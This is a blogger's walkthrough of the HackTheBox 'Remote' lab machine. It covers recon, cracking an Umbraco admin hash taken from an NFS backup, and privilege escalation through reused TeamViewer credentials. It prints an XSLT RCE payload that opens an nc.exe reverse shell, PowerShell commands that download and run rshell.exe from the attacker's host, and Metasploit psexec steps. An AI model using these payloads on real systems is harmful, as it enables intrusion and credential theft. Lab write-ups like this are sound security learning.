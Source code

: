 # CTF Writeup: HackTheBox - [Remote](https://www.hackthebox.eu/home/machines/profile/234)

In 2020 (thanks to COVID lockdowns), I started working on HackTheBox challenges. So far I have pwned/rooted 7 machines and it is too much fun! I finally got some time to go through my notes and decided to write this brief walkthrough to the [Remote](https://www.hackthebox.eu/home/machines/profile/234) machine.

This is not going to be a full wript-up with detailed steps, I am just going to skip over to most interesting findings. It goes without saying that there was hours of research between each stage and a lot of learning.

## Starting off with an NMAP Scan:

```
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.180 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -sC -sV -p$ports 10.10.10.180
```
We get a huge list of open ports and services:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-31T11:01:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.11 seconds

```

As usual, I went through most of the well known ports to explore the attack surface:
- Start dirbuster on web applications
- Start manually browsing the web content
- Attempt manual connections to ftp and mountd services
- Fire up msfconsole and run some recon against netbios and rpc

I hit two interesting leads in the recon:
- Dirbuster found bunch of content on port 80

  ```
  GENERATED WORDS: 4612

  ---- Scanning URL: http://10.10.10.180/ ----
  + http://10.10.10.180/about-us (CODE:200|SIZE:5441)
  + http://10.10.10.180/blog (CODE:200|SIZE:5001)
  + http://10.10.10.180/Blog (CODE:200|SIZE:5001)
  + http://10.10.10.180/contact (CODE:200|SIZE:7880)
  + http://10.10.10.180/Contact (CODE:200|SIZE:7880)
  + http://10.10.10.180/home (CODE:200|SIZE:6703)
  + http://10.10.10.180/Home (CODE:200|SIZE:6703)
  + http://10.10.10.180/install (CODE:302|SIZE:126)
  + http://10.10.10.180/intranet (CODE:200|SIZE:3323)
  + http://10.10.10.180/master (CODE:500|SIZE:3420)
  + http://10.10.10.180/people (CODE:200|SIZE:6739)
  + http://10.10.10.180/People (CODE:200|SIZE:6739)
  + http://10.10.10.180/person (CODE:200|SIZE:2741)
  + http://10.10.10.180/product (CODE:500|SIZE:3420)
  + http://10.10.10.180/products (CODE:200|SIZE:5328)
  + http://10.10.10.180/Products (CODE:200|SIZE:5328)
  + http://10.10.10.180/umbraco (CODE:200|SIZE:4040)
  ```
- Umbraco is a CMS so I used a [Umbraco discovery wordlist](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/CMS) and discovered the login page 

  ` http://10.10.10.180/umbraco#/login/false?returnPath=%252Fumbraco`
- Second important discovery:
  - I was able to mount a volume using the mountd service

    `mount 10.10.10.180:/site_backups site_backups/`
  - It contained a directory called `App_data` with file `Umbraco.sdf`
  - A quick google search reveals it's a database file
  - Not sure how to open this file, I just drag and dropped it into my VSCode editor and instantly noticed a plain text string in load of garbage 

      `Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}`
      
  - BAM! There it is, the SHA1 hash for the Umbraco Administrator's password. But how do I crack it?
  - Well, I just googled how to crack SHA1 hash, in top results I see `https://crackstation.net/`, paste the hash into this website, and BAM! `baconandcheese` is the password!
  - Login to the Umbraco CMS as admin
 
## Umbraco Remote Code Execution
 
* Next step is to somehow get code execution. So I re-visited exploit-db and noticed [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153) exploit. The word authenticated caught my eye and I was quite sure this exploit has to work. Of course, it didn't work.
* After bit of tinkering with the payload, I modified it to obtain a reverse shell using nc back to my kali machine:

```
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "10.10.14.23:4449"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "nc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '
```
Got the user flag `type c:\Users\Public\user.txt`

## Privilege Escalation

Now for finding privilege escalation to root, I spent too much time looking around the system and finding missing patches, etc but no luck. Hmm, the name of the machine is `remote` so there must be a remote access service that we can exploit. Did some service enumeration and found that TeamViewer is running. That's probably the way in.

* In Metasploit, I noticed `windows/gather/credentials/teamviewer_passwords` module. So I spent the time to now get a proper shell into my msfconsole. I ended up using following commands in my existing reverse shell:

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.25:8000/rshell.exe');"

powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.25:8000/rshell.exe',"$env:APPDATA\rshell.exe");Start-Process ("$env:APPDATA\rshell.exe")
```

* Once I had the session in msfconsole, I run the `windows/gather/credentials/teamviewer_passwords` module and BAM!

  ```
  TeamViewer Client ID - 1769137322
  Unattended Password: !R3m0te!
  ```
  
* Now, I tried many ways to use these credentials to actually connect to the target machine using TeamViewer client but it did not work. I could not figure out what was going on. So I slept over it.
* Next day, I was working and spent most of my day in Zoom meetings with my colleagues. At one point, there were disucssions about a phishing incident and re-using passwords. After tiring day of Zoomming, as I was recollecting my thoughts I realized the risks of **re-using passwords** and how it may be the trick in this HackTheBox challenge. 
* It would be too easy I said to myself, but decided to give it a try anyway. Fired up msfconsole, 

```
msfconsole> use windows/smb/psexec
msfconsole> set SMBUSer administrator
msfconsole> set SMBPass !R3m0te!

msfconsole> exploit
```

and BAM! I could not believe it worked. And as easy as that, we get the administrator access and the root flag!
